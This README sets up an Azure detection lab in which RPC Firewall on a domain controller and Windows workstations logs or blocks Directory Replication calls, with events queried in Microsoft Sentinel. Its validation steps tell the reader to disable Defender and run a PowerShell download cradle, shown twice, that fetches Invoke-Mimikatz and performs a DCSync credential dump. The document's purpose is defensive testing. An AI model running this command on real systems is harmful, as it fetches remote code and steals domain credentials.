 # Windows 10 + Domain Controller + RPC Firewall Project 

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)
[![Deploy to Azure Gov](https://aka.ms/deploytoazuregovbutton)](https://portal.azure.us/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
    * [Windows Forwarded Events](https://learn.microsoft.com/en-us/azure/sentinel/data-connectors/windows-forwarded-events) data connector enabled.
    * [Data collection rule (DCR)](https://docs.microsoft.com/en-us/azure/templates/microsoft.insights/datacollectionrules?tabs=json) to collect RPC Firewall events.
    * [Windows RPC Firewall parser](https://raw.githubusercontent.com/OTRF/Microsoft-Sentinel2Go/master/microsoft-sentinel/linkedtemplates/parsers/winRPCFWLogs.json).
* One Windows Active Directory domain (One Domain Controller)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* Windows 10 Workstations (Max. 10)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* [OPTIONAL] Command and Control (c2) options:
    * `empire`
    * `metasploit`
* Remote Access Restrictions (`AllowPublicIP` default option)
    * Access via Azure Bastion (Recommended. Additional costs applied)
    * Restrict Access to one Public IP Address (For example, Home Public IP Address)

## Validate Event Generation

1. RDP to DC01
2. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_check_events.png)

## Validate RPC Firewall Capabilities
### Monitor Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData\<RPC Release>` folder.
2. Validate that the following entry exists in the config file:

```
fw:uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:allow audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```

6. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_mk_dcsync.png)

### Block Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData\<RPC Release>` folder.
2. Validate that the following entry exists in the config file:

```
fw:uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 addr:127.0.0.1 action:allow
fw:uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:block audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```
4. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_block_replication_event.png)

## Query Events in Microsoft Sentinel

1. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel".
2. Go to `logs`
3. There will be a function / parser already available for you to query RPC Firewall events:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_limit10.png)

4. Run a basic query to find the use of Directory Replication Services (DRS) in your environment:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_where_replication.png)

## References:
* https://github.com/Cyb3rWard0g/WinRpcFunctions
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0
* https://github.com/zeronetworks/rpcfirewall
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410